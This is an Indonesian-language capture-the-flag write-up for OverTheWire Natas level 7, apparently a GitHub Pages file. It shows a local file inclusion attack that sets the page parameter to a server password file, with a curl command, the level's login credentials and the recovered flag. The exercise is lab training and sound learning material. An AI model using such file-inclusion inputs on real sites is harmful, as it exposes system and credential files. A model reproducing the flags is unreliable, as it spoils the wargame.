 ```yaml
---
layout: default
test_level7
name_file: level
---
```


{% include level-section.html %}

# soal
Username: natas7 \
URL:      http://natas7.natas.labs.overthewire.org

# solve
- use cred natas7:bmg8SvU1LizuWjx3y7xkNERkHxGre0GS
- disini ketika saya sudah login saya melihat terdapat sebuah navbar untuk berpindah halaman dan ketika di lihat terdapat sebuah query
  - query nya adalah ?page=home
  ![alt text](docs/images/image-8.png)
- lalu ketika saya lihat view-source pagenya saya menemukan hint untuk posisi passwrod natas
  ![alt text](docs/images/image-9.png)
  ```/etc/natas_webpass/natas8```
- jadi saya mengubah value dari paramter ?page
  - dan mendapatkan flagnya
  ![alt text](docs/images/image-10.png)
- jika menggunakan curl
  ```bash
  curl http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8 -u natas7:bmg8SvU1LizuWjx3y7xkNERkHxGre0GS
  # xcoXLmzMkoIP9D7hlgPlh9XD7OgLAe5Q
  # <!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
  ```

# flag
xcoXLmzMkoIP9D7hlgPlh9XD7OgLAe5Q